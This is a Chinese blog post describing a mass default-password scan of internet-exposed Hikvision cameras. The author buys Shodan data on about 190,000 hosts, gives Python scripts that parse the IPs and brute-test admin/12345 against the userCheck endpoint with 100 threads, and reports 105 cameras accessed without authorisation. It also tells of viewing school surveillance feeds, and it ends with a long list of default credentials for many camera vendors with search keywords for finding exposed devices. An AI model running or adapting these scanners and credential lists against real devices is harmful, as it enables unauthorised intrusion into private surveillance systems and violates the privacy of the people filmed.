



## 前言

在我上高二的时候，海康威视摄像头被爆出大量公开web访问具有弱密码，那时手动对学校内部的摄像头进行fuzz，成功进入了几个摄像头控制web，能够随意查看学校的监控。

海康威视web界面的弱密码是 admin  12345

时隔四年，想要再次对网络上能够访问到的海康威视web管理进行一次批量弱密码扫描

## 从shodan获取数据

首先需要搞到全网所有能够访问到的海康威视机器的IP，这是个工作量极大的任务，如果自己进行全网服务扫描的话无论是时间周期还是耗费资金都是我无法承受的

之前了解过shodan，shodan被称为“最恐怖的搜索引擎”，能够提供多年来其扫描到的全网提供的服务，可惜数据的价格极高

今年黑五是shodan诞生第十年，shodan给出极大的优惠，正式会员+20credit只需要1刀，手头有信用卡和企业邮箱的我二话不说先上了20个账号

有了shodan的credit就可以购买它的数据了。海康威视的web管理界面的关键词很简单，只需要在shodan搜索“hikvision”



在我写这篇博客的时候搜索到的数据有18万条，前段时间我下载数据的时候是19万条。

下载大量数据是需要花credit的，1credit可以下载1万条数据，所以19万多的数据花费了我20credit，正常情况下20credit是49刀，这次黑五真是太实惠了

## 提取有用信息

有了数据之后通过python解析，检查是否存在http服务，如果存在就提取ip和port

```python
#!/usr/bin/env python
#-*-coding:utf-8-*-

import json

fi = open("shodan_data.json")
fo = open("ip.txt", 'w')

line = fi.readline()
numall = 1
num = 0

while line:
    line = fi.readline()
    numall = numall+1
    try:
        a = json.loads(line)
        if 'http' in a:
            num = num+1
            txt = a['http']['host']+':'+str(a['port'])+'\n'
            fo.write(txt)
            print(txt)
    except Exception as e:
        continue

fo.close()
fi.close()

print(numall)
print(num)
```

## 分析与扫描

然后通过多线程python脚本进行弱密码批量扫描。

通过手工尝试找到一台可以弱密码登录进去的机器，通过burp抓包分析，找到用来验证弱密码的接口。



分析发现登录使用的是base auth，这就简单了。使用的接口是userCheck，如果登录成功应该返回200.



```python
#!/usr/bin/env python
#-*-coding:utf-8-*-
#批量筛选海康威视摄像头的弱密码
import threading
import requests
import queue
import sys
import re

def Threads():
    threadlist=[]
    myqueue=queue.Queue()
    for ip in open('ip.txt','r'): #扫描出的ip
        myqueue.put(ip.replace('\n',''))
    for x in range(0,100):  #线程数
        th=threading.Thread(target=scan_Hikvision,args=(myqueue,))
        threadlist.append(th)
    for t in threadlist:
        t.start()
    for t in threadlist:
        t.join()

def scan_Hikvision(myqueue):
    while not myqueue.empty():
        ip=myqueue.get()
        try:
            print("[*]scan:"+ip)
            r = requests.get(url=("http://%s/PSIA/Custom/HIK/userCheck" % ip),auth=('admin','12345'),timeout=10)
            status = re.findall(r'<statusValue>(.*)</statusValue>', r.text)
            if status[0] == '200':
                print('[√] Host http://'+ ip +' Login Success!\n')
                f = open('ok.txt', 'a+')
                f.write(ip+"\n")
                f.close()
                break
        except:
            continue

if __name__=='__main__':
    Threads()
```

正好有个美国的vps，就扔到这个服务器上进行扫描，本机也开起来扫

100线程很快就扫描完毕了，国内外扫描完的结果去重后一共留下105个可登录弱密码。感觉不应该只有这么点，登录后查看只发现一个版本的海康威视，可能是检测弱密码的接口在其他版本中不存在，或者其他版本默认密码更换或者其他原因

## 后话

海康威视应该是采取了手段来避免弱密码的再次产生，但是之前老版本的DVR还有一部分并没有进行更新，大部分是农村的家庭或工厂监控，大家也都不太懂，并没有修改默认密码

心里不是滋味，身边也有一些父母的朋友他们让我帮忙安装一些路由器、监控等设备，他们的文化水平不高，当我要给他们修改密码的时候，一部分会选择手机号码，也有一部分让我不要修改密码，说改了别记不住，直接出厂密码就行了，忘了可以看一下说明书

能不能想出一种办法，既考虑到安全性，又能顾虑到这部分人的需求，这是个问题

## 弱密码收集

```
1.海康威视IP网络摄像机：
用户：admin，密码：12345
zoomeye搜索关键词：hikvision
2.大华网络摄像机：
user:admin pass:admin 管理权限
user:default pass:user 用户默认登陆帐号
user:888888 pass:admin
user:666666 pass:user
zoomeye搜索关键词：WEB SERVICE
3.cctv摄像机：
user：admin pass：空
telnet登陆 user：root pass：”juantech”
zoomeye搜索关键词：JAWS/1.0
4.SQ-WEBCAM摄像机：
user：admin pass：admin
zoomeye搜索关键词：SQ-WEBCAM
ACTi: admin/123456 or Admin/123456
American Dynamics: admin/admin or admin/9999
Arecont Vision: none
Avigilon: admin/admin
Axis: traditionally root/pass, new Axis cameras require password creation during first login
Basler: admin/admin
Bosch: none
Brickcom: admin/admin
Canon: root/camera
Cisco: No default password, requires creation during first login
Dahua: admin/admin
Digital Watchdog: admin/admin
DRS: admin/1234
DVTel: Admin/1234
DynaColor: Admin/1234
FLIR: admin/fliradmin
Foscam: admin/
GeoVision: admin/admin
Grandstream: admin/admin
Hikvision: admin/12345
Honeywell: admin/1234
IQinVision: root/system
IPX-DDK: root/admin or root/Admin\
JVC: admin/jvc
March: Networks: admin/
Mobotix: admin/meinsm
Panasonic: admin/12345
Pelco Sarix: admin/admin
Pixord: admin/admin
Samsung Electronics: root/root or admin/4321
Samsung Techwin (old): admin/1111111
Samsung (new): admin/4321
Sanyo: admin/admin
Scallop: admin/password
Sentry360 (mini): admin/1234
Sentry360 (pro): none
Sony: admin/admin
Speco: admin/1234
Stardot: admin/admin
Starvedia: admin/
Trendnet: admin/admin
Toshiba: root/ikwd
VideoIQ: supervisor/supervisor
Vivotek: root/
Ubiquiti: ubnt/ubnt
Wodsee: admin/
```
